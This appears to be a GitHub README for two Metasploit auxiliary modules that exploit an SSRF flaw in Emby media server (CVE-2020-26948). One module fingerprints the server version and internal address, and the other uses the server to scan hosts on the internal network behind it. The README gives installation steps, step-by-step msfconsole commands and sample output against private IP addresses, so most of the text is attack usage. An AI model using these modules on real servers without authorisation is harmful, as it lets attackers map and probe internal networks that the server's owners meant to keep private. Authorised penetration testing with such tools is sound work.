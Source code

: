 # msf_emby

This tool will check a remote EMBY server to attempt to use an SSRF vulnerability to perform an http scan of the network internal to the EMBY server. This is based on the vulnerability CVE-2020-26948.

## Installation
Clone the repo and put the rb files into the `/usr/share/metasploit-framework/modules/auxiliary/scanner/http/` directory. Run msfconsole, and use the modules from there.

## Help
### Emby_Version:

  1. Do: `use auxiliary/scanner/http/emby_version_ssrf`
  2. Do: `set rhosts [ips]`
  3. Do: `run`

```
msf6 > use auxiliary/scanner/http/emby_version_ssrf
msf6 auxiliary(scanner/http/emby_version_ssrf) > set rhosts 10.10.200.32
rhosts => 10.10.200.32
msf6 auxiliary(scanner/http/emby_version_ssrf) > run

[*] Identifying Media Server Version on 10.10.200.32:8096
[+] [Media Server] URI: http://10.10.200.32:8096  /
[+] [Media Server] Version: 4.4.2.0
[+] [Media Server] Internal IP: http://192.168.2.3:8096
[+] *** Vulnerable to SSRF module auxiliary/scanner/emby_ssrf_scanner! ***
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Emby_Scan:

  1. Do: `use auxiliary/scanner/http/emby_ssrf_scanner`
  2. Do: `set rhosts [ips]`
  3. Do: `set emby_server [emby_server_ip]`
  4. Do: `run`

```
msf6 > use auxiliary/scanner/http/emby_ssrf_scanner
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > set emby_server 10.10.200.32
emby_server => 10.10.200.32
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > set rhosts 192.168.2.3
rhosts => 192.168.2.3
msf6 auxiliary(scanner/http/emby_ssrf_scanner) > run

[+] 192.168.2.3:8096 Title: Emby
[+] 192.168.2.3:8096     HTTP Code: 200
[+] 192.168.2.3:8096     Location Header:
[+] 192.168.2.3:8096     Server Header: UPnP/1.0 DLNADOC/1.50
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
